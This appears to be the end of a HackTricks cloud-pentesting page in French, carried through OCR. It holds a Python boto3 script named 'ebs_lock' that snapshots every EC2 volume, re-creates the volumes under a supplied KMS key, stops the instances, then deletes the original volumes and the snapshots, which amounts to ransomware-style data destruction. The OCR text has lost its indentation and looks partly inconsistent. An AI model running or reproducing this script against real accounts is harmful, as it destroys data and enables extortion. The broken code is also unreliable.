 ```
instance_ids = list(instance_volumes.keys())
stop_instances(ec2_client, instance_ids)

all_volumes = [vol for vols in instance_volumes.values() for vol in vols]
detach_and_delete_volumes(ec2_client, all_volumes)

def ebs_lock(access_key, secret_key, region, kms_key_arn):
ec2_client = boto3.client('ec2', aws_access_key_id=access_key, aws_secret_access_key=secret_key, region_name=region)

instance_volumes = enumerate_ec2_instances(ec2_client)
all_volumes = [vol for vols in instance_volumes.values() for vol in vols]
snapshot_ids = snapshot_volumes(ec2_client, all_volumes)
wait_for_snapshots(ec2_client, snapshot_ids)
create_encrypted_volumes(ec2_client, snapshot_ids, kms_key_arn)  # New encrypted volumes are created but not attached
replace_volumes(ec2_client, instance_volumes)  # Stops instances, detaches and deletes old volumes
delete_snapshots(ec2_client, snapshot_ids)  # Optionally delete snapshots if no longer needed

def parse_arguments():
parser = argparse.ArgumentParser(description='EBS Volume Encryption and Replacement Tool')
parser.add_argument('--access-key', required=True, help='AWS Access Key ID')
parser.add_argument('--secret-key', required=True, help='AWS Secret Access Key')
parser.add_argument('--region', required=True, help='AWS Region')
parser.add_argument('--kms-key-arn', required=True, help='KMS Key ARN for EBS volume encryption')
return parser.parse_args()

def main():
args = parse_arguments()
ec2_client = boto3.client('ec2', aws_access_key_id=args.access_key, aws_secret_access_key=args.secret_key, region_name=args.region)

instance_volumes = enumerate_ec2_instances(ec2_client)
all_volumes = [vol for vols in instance_volumes.values() for vol in vols]
snapshot_ids = snapshot_volumes(ec2_client, all_volumes)
wait_for_snapshots(ec2_client, snapshot_ids)
create_encrypted_volumes(ec2_client, snapshot_ids, args.kms_key_arn)
replace_volumes(ec2_client, instance_volumes)
delete_snapshots(ec2_client, snapshot_ids)

if __name__ == "__main__":
main()
```
## Références

- [Pentest Partners – How to transfer files in AWS using SSM](https://www.pentestpartners.com/security-blog/how-to-transfer-files-in-aws-using-ssm/)

{{#include ../../../../banners/hacktricks-training.md}}
